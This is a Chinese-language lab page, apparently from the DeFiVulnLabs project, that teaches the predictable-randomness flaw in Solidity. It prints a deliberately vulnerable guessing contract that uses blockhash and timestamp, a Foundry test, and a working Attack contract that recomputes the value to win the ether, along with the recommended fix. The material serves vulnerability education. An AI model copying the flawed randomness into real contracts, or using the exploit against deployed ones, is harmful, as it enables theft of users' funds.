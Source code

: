 # 随机性 
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   
**名称：** 可预测随机性漏洞  
**描述：**  
使用全局变量，如块哈希、块号、区块时间戳等字段是不安全的，矿工和攻击者可以控制它。  



**场景：**  
GuessTheRandomNumber是一款游戏，如果您能猜到从块哈希和时间戳生成的伪随机数，您将赢得1个以太币。  
乍一看，似乎无法猜出正确的数字。  
但让我们看一下获胜有多容易。 
 1. Alice用1个以太币部署GuessTheRandomNumber合约  
 2. Eve部署攻击合约  
 3. EVe调用Attack.attack()赢得了1个以太币



**这会发生什么？**  
攻击者只需复制计算随机数的代码就可以计算出正确答案。


**修复意见：** 
不要使用blockhash和block.timestamp作为随机性的来源。  

**参考：**  
https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber合约：**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Randomness.sol-vvvv  
```
// 测试对使用可预测随机性合约攻击的函数
function testRandomness() public {
    // 将地址值从以太坊虚拟机分配给“alice”和“eve”。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice获得1个以太币
    vm.deal(address(alice), 1 ether);

    // 通过Alice的地址调用prank函数
    vm.prank(alice);

    // 创建GuessTheRandomNumberContract的实例，其余额为1个以太币
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // Eve的攻击开始
    vm.startPrank(eve);

    // 创建Attack合约的实例
    AttackerContract = new Attack();

    // 记录AttackerContract合约的当前余额
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // Attack合约试图猜测GuessTheRandomNumberContract的随机数。
    AttackerContract.attack(GuessTheRandomNumberContract);

    // 再次记录AttackerContract合约的余额，显示攻击是否成功。
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // 记录一条消息，表示漏洞攻击已完成。
    console.log("Exploit completed");
}


// 尝试猜测GuessTheRandomNumberContract随机数的Attack合约。
contract Attack {
    // 允许此合约接收以太币的函数
    receive() external payable {}

    // 使用与GuessTheRandomNumberContract相同的逻辑计算伪随机数并使用它来猜测数字的attack函数。
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // 使用猜测的答案调用GuessTheRandomNumber合约的guess函数。
        guessTheRandomNumber.guess(answer);
    }

    // 辅助函数，用于检查此合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```  
**红框：** 猜中答案并赢得比赛  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fda3d6929-9bc8-478e-a027-cff9c2a65c0d%2FUntitled.png?table=block&id=216b1af8-21a5-4e09-a63e-e4523705c968&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
